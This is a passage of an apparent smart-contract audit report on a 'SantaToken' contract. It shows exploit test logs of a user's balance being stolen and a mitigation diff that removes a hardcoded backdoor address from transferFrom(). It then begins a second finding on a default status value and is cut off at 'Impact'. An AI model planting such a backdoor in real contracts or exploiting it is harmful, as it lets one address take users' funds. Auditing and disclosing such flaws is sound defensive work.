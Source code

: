 take a Look at the `Logs`:

```javascript
    Logs:
        Current SantaToken `user` Balance After Collecting Present:  1000000000000000000
        MaliciousActor Comes in Tries to Call transferFrom() to Steal `user` balance.
        Current SantaToken `user` Balance After MaliciousActor Stole his/her Tokens:  0
        Current SantaToken `maliciousActor` Balance After Stealing it From `user` with transferFrom() function:  1000000000000000000
```


**Recommended mitigation**

remove this part from the `transferFrom()` function:

```diff
    function transferFrom(address from, address to, uint256 amount) public virtual returns (bool) {
-       if (msg.sender == 0x815F577F1c1bcE213c012f166744937C889DAF17) {
-           balanceOf[from] -= amount;
-           unchecked {
-               balanceOf[to] += amount;
-           }
-           emit Transfer(from, to, amount);
-           return true;
-       }

        uint256 allowed = allowance[from][msg.sender]; // Saves gas for limited approvals.

        if (allowed != type(uint256).max) allowance[from][msg.sender] = allowed - amount;

        balanceOf[from] -= amount;

        // Cannot overflow because the sum of all user
        // balances can't exceed the max uint256 value.
        unchecked {
            balanceOf[to] += amount;
        }

        emit Transfer(from, to, amount);

        return true;
    }
```

### [HIGH-2] Wrong Status order, every Address is Considered `NICE` by Default.

**Description**

if we take a look at the `enum:Status`, the first Status is `NICE`, which is `0`. if we take an Any Address and pass it to `s_theListCheckedOnce` or `s_theListCheckedTwice` mappings, we get `0` in return which basically tell's that given address is considered as `NICE`.

**Impact**
